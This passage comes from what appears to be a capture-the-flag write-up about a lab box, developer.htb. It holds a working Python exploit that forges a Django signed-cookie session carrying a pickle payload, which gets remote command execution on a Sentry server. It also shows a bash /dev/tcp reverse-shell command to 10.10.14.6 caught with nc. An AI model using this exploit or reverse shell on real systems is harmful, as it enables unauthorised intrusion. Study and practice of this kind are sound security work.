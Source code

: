     
    cmd = sys.argv[1]
    
    SECRET_KEY='c7f3a64aa184b7cbb1a7cbe9cd544913'
    #Initial cookie I had on sentry when trying to reset a password
    cookie=".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
    newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')                              
    class PickleRce(object):
        def __reduce__(self):
            return (os.system,(cmd,))
    newContent['testcookie'] = PickleRce()
    
    cookie = django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)                 
    print("Forged cookie:\n" + cookie)
    
    requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})   
    

For example, with `tcpdump` listening, I can ping myself:

    
    
    oxdf@parrot$ python2 django-rce.py 'ping -c 1 10.10.14.6'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUJFCjLz0hV0kxUMFQwN9EDIRM-skLk1qJAllDc-sbQkI760OLUoPjPFmzVUCEkgKTE5OzUvJVQJYr1eaUlmTrEeSF7PNTcxM8cRyHKCqCnVAwDdijyO:1m47EC:va8S4KQZMhdYvXCdcgRVBkjPoIQ
    

And see it at `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:41:00.834421 IP developer.htb > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    15:41:00.834453 IP 10.10.14.6 > developer.htb: ICMP echo reply, id 2, seq 1, length 64
    

#### Shell

Running this with a reverse shell payload returned a shell:

    
    
    oxdf@parrot$ python2 django-rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUINkxKLMxR0kxWUIIxMBTs1Bf2U1DL9kuQCfUMDPRAy0TPTNzExVjCwUzNUKmRuDSpkCeWNTywtyYgvLU4tis9M8WYNFUISSEpMzk7NSwlVgrhNr7QkM6dYDySv55qbmJnjCGQ5QdSU6gEAY4JESA:1m478z:q3TGSOBo-rDA954yJoX08RfEI9g
    

At a listening `nc`:

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.120] 40458
    bash: cannot set terminal process group (879): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@developer:/var/sentry$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    